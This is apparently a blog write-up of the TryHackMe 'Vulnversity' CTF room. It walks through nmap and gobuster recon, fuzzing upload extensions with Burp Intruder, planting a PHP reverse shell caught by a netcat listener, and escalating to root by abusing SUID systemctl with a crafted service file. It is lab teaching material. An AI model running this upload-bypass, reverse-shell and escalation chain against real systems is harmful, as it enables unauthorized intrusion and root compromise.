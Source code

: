 ```yaml
---
title: Writeup for TryHackMe room - Vulnversity
author: 4n3i5v74
date: 2021-01-17 00:00:00 +0530
categories: [CTF, TryHackMe]
tags: [tryhackme, writeup, ctf, web]
pin: true
---
```


## [Vulnversity](https://tryhackme.com/room/vulnversity){:target="_blank"}

This room is about performing recon and web attacks.


## Task 2 - Reconnaisance

Use these links as references.
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}


Using `nmap` as below, all info can be gathered for the task.
{% capture code %}nmap -Pn -T4 -sV --reason --open <ip>{% endcapture %} {% include code.html code=code lang="bash"%}


## Task 3 - Locating directories using Gobuster

Use these links as references.
- [Gobuster Reference](https://4n3i5v74.github.io/posts/cheatsheet-gobuster/){:target="_blank"}
- [Wordlist Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#wordlists---rockyou){:target="_blank"}


Using `gobuster` and `dirb` wordlists, find the child directories under web root.
{% capture code %}gobuster dir -u http://<ip>:3333 -w /usr/share/wordlists/dirb/common.txt -q{% endcapture %} {% include code.html code=code lang="bash"%}

Use either `curl` or browser to load the pages from `gobuster` result and see if anything contains `upload` logic.
{% capture code %}curl http://<ip>:3333/<dir>/{% endcapture %} {% include code.html code=code lang="bash"%}


## Task 4 - Compromise the webserver

Use these links as references.
- [Burpsuite Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-burpsuite){:target="_blank"}


This task can be done using `burpsuite`.
- Open `firefox` and set proxy `127.0.0.1:8080`
- Open `burpsuite` and turn `intercept on`
- Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload a file
- In `burpsuite`, in `proxy` tab, select the content and `send to intruder`
- In `burpsuite`, in `intruder` tab, and in `positions` tab, select `sniper` attack type, `clear §`, and `add §` to filename extension
- In `burpsuite`, in `intruder` tab, and in `payloads` tab, load `/usr/share/wordlists/SecLists/Fuzzing/extensions-m1ost-common.fuzz.txt` and `start attack`
- Check the results for different response size to find which extensions are not blocked
- Quit `burpsuite` and reverse proxy setting in `firefox`

Download the [php reverse shell payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){:target="_blank"},and copy the file under extension `.phtml`. Edit the file and and change ip to local machine ip.

Start a netcat session to listen for reverse proxy connection.
{% capture code %}nc -lnvp 1234{% endcapture %} {% include code.html code=code lang="bash"%}

Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload payload file, and navigate to the url `http://<ip>:3333/<dir>/uploads/php-reverse-shell.phtml`. A reverse shell should have been created in the `netcat` listening terminal.

The `user` managing the web server and the `flag` can be retrieved from the shell.


## Task 5 - Privilege Escalation

Now the webserver is compromised and a shell access is gained. This task shows how to gain privilege escalation using `SUID`.

Find the commands which has `SUID` set. This allows normal user to gain root access temporarily. Any of the below command can be used to find the binaries allowing `SUID`.
{% capture code %}find / -perm /4000 2>&1 | grep -v “Permission denied”{% endcapture %} {% include code.html code=code lang="bash"%}
{% capture code %}find / -user root -perm -4000 -exec ls -ldb {} \;{% endcapture %} {% include code.html code=code lang="bash"%}

Since the binary found is `/bin/systemctl`, create a temporary `service file`, and run it, to gain `SUID` access.
{% capture code %}eop=$(mktemp).service{% endcapture %} {% include code.html code=code lang="bash"%}

{% capture code %}echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop{% endcapture %} {% include code.html code=code lang="bash"%}

{% capture code %}/bin/systemctl link $eop{% endcapture %} {% include code.html code=code lang="bash"%}

{% capture code %}/bin/systemctl enable --now $eop{% endcapture %} {% include code.html code=code lang="bash"%}


Capture the flag from the manipulated output file.
{% capture code %}cat /tmp/output{% endcapture %} {% include code.html code=code lang="bash"%}

